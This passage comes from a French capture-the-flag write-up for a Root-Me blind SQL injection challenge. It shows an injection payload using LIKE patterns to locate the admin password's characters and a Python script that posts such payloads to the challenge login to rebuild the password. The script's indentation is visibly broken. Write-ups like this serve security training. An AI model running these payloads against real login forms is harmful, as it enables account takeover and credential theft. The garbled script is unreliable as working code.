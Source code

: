 ```python

if __name__=="__main__":
	 main()
```

Ce qui me renvois alors : 

```
aeioz239
```

Nous avons le password maintenant, mais dans le désordre. Il fait bien 8 caractère, donc nous avons aucunes lettres en double, ce qui va nous économiser des requêtes.

## Retrouver la positions du caractère dans le password

Maintenant il nous reste plus qu'a trouver leurs position dans le password.
Continuons le scripts en y ajoutant la fonction adéquat.

La requete par exemple que j'ai tester à la main pour être sur qu'elle fasse ce que l'on veut et la suivante :
```sql
' OR (SELECT password where username = "admin" ) LIKE "__a_____" --
```
qui nous retourne une connexion, donc le caractère a est en 3 ème position. 

Continuons avec un script python :

```python
import requests, re

url = "http://challenge01.root-me.org/web-serveur/ch10/"
caracteres = "aeioz239"
tab = ['_','_','_','_','_','_','_','_']
tab2 = ['','','','','','','','']
position = ""
result =""
password = ""
for i in caracteres:
	 for n in range(len(tab)):
	 if tab[n] == '_':
		 tab[n] = i
		 for j in tab:
			 position += j
			 requete = f"' OR (SELECT password where username = 'admin' ) LIKE '{position}' --"
			 r = requests.post(url, data={'username': requete, 'password': "a"})
			 html_reponse = r.text
			 matches = re.search(r"Welcome", html_reponse)
			 try:
				 if matches.group(0) == "Welcome":
				 print(f"(+) POSITION TROUVER : {position}")
				 compteur = 1
				 for k in position:
					 if i == k:
						 print(f"(+) CARACTERE {k} EST EN POSITION {compteur}")
						 tab2[compteur-1] = k
					 else:
						 compteur = compteur + 1
					 except:
						 pass
					 position = ""
					 tab = ['_','_','_','_','_','_','_','_']
password = ""
for i in tab2:
	password += i
print(password)
```